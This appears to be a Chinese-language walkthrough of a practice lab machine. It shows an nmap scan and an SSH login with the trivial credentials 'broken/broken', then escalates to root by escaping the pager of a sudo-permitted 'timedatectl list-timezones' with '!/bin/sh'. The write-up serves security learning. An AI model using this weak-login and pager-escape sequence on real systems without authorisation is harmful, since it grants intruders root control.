


## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p22,80 9999 10.10.10.35
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-14 01:23 EDT
Nmap scan report for 10.10.10.35
Host is up (0.0022s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 39:5e:bf:8a:49:a3:13:fa:0d:34:b8:db:26:57:79:a7 (RSA)
|   256 20:d7:72:be:30:6a:27:14:e1:e6:c2:16:7a:40:c8:52 (ECDSA)
|_  256 84:a0:9a:59:61:2a:b7:1e:dd:6e:da:3b:91:f9:a0:c6 (ED25519)
80/tcp open  http    Apache httpd 2.4.18
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 55K   2019-08-09 01:20  README.md
| 1.1K  2019-08-09 01:21  gallery.html
| 259K  2019-08-09 01:11  img_5terre.jpg
| 114K  2019-08-09 01:11  img_forest.jpg
| 663K  2019-08-09 01:11  img_lights.jpg
| 8.4K  2019-08-09 01:11  img_mountains.jpg
|_
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Index of /
MAC Address: 00:0C:29:05:05:03 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 2 IP addresses (1 host up) scanned in 14.05 seconds
```
## web渗透


保存为jpg

得到两个用户名，但是最离谱的是
这个靶机，ssh登录的用户和密码是broken。。。

## ssh+提权

```bash
┌──(kali㉿kali)-[~]
└─$ ssh broken@10.10.10.35                   
The authenticity of host '10.10.10.35 (10.10.10.35)' can't be established.
ED25519 key fingerprint is SHA256:2rSjxvkij5hWypyT/706pdaI6YAB0AOIXa7kVnMBDZs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.35' (ED25519) to the list of known hosts.
broken@10.10.10.35's password: 
Welcome to Ubuntu 16.04 LTS (GNU/Linux 4.4.0-21-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

762 packages can be updated.
458 updates are security updates.

Last login: Fri Aug  9 02:40:48 2019 from 10.11.1.221
broken@ubuntu:~$ sudo -l
Matching Defaults entries for broken on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User broken may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/timedatectl
    (ALL) NOPASSWD: /sbin/reboot
broken@ubuntu:~$ getcap -r 2>/dev/null
broken@ubuntu:~$ sudo timedatectl list-timezones
Africa/Abidjan
Africa/Accra
Africa/Addis_Ababa
Africa/Algiers
Africa/Asmara
Africa/Bamako
Africa/Bangui
Africa/Banjul
Africa/Bissau
Africa/Blantyre
Africa/Brazzaville
Africa/Bujumbura
Africa/Cairo
Africa/Casablanca
Africa/Ceuta
Africa/Conakry
Africa/Dakar
Africa/Dar_es_Salaam
Africa/Djibouti
Africa/Douala
Africa/El_Aaiun
Africa/Freetown
Africa/Gaborone
Africa/Harare
Africa/Johannesburg
Africa/Juba
Africa/Kampala
Africa/Khartoum
Africa/Kigali
Africa/Kinshasa
Africa/Lagos
Africa/Libreville
Africa/Lome
Africa/Luanda
Africa/Lubumbashi
!/bin/sh
# whoami
root
```